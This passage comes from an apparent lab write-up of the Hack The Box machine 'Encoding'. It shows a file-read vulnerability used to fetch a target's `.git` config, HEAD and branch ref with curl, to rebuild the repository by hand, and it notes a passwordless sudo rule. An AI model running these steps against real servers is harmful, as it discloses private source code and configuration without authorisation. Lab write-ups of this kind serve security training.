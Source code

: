 The first thing to look at is the `shell_exec` calls, but it seems that no user input is used to form the commands, so there’s not command execution there. It is interesting to note for later that the user running the webserver is able to run `sudo` as svc for these commands without a password. I’ll come back to `git-commit.sh` as well.

This script also suggests there is a Git repository here.

```

oxdf@hacky$ curl http://localhost:5000/var/www/image/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true

```

It’s there.

#### Download Repo Manually

The author’s intended path is to rebuild the repo manually using the file read vulnerability. [This man page](https://git.seveas.net/manpages/gitrepository-layout.html) shows the layout of a Git repo. I’ll start in an empty directory initializing the repo:

```

oxdf@hacky$ git init
Initialized empty Git repository in ~/hackthebox/encoding-10.10.11.198/git-manual/.git/

```

I’ll add `config` and `HEAD`:

```

oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/config > .git/config
oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/HEAD | tee .git/HEAD
ref: refs/heads/master

```

Knowing the HEAD, I’ll fetch the file in `refs/heads/[branch name]` that will give the “tip-of-the-tree” commit:

```

oxdf@hacky$ mkdir -p .git/refs/heads
oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/refs/heads/master | tee .git/refs/heads/master
9c17e5362e5ce2f30023992daad5b74cc562750b

```

I’m using `tee` to both see the contents of the file and save the file into my repo. The commit is a SHA1 hash, and the associated objects will be in `.git/objects/[first two char of sha1]/[rest of sha1]`:
